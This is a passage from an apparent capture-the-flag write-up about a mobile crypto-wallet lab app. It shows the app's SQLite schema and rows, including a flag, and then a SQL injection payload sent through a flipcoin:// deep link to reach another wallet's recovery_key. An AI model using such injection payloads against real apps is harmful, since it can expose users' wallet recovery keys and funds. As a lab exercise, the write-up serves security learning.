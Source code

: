 I thought the amount might be the vulnerable parameter, but where will the results come back? Getting back to Burp Suite I found this interesting request:

![normal request.png](/assets/MHL/normal_request.png)

Let’s study again the SQL schema before injecting any command:

```sql
sqlite> .schema
CREATE TABLE wallet (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        address TEXT,
        currency FLOAT,
        amount FLOAT,
        recovery_key TEXT
    );
CREATE TABLE sqlite_sequence(name,seq);
sqlite> .tables
wallet
sqlite> SELECT * FROM wallet;
1|0x252B2Fff0d264d946n1004E581bb0a46175DC009|flipcoin|0.3654|FLAG{fl1p_d4_c01nz}}
2|1W5vKAAKmBAjjtpCkGZREjgEGjrbwERND|bitcoin|15.26|BATTLE TOADS WRITING POEMS
```

So we have 5 columns, and our goal is to get the `recovery_key` column. What I can notice from the request is that the first value of the `params` is the address of the first ID. So let’s inject a SQL payload that changes the ID to 2.

```bash
# Payload: AND id=2;--
uiopen "flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0003%20AND%20id=2;--"
```
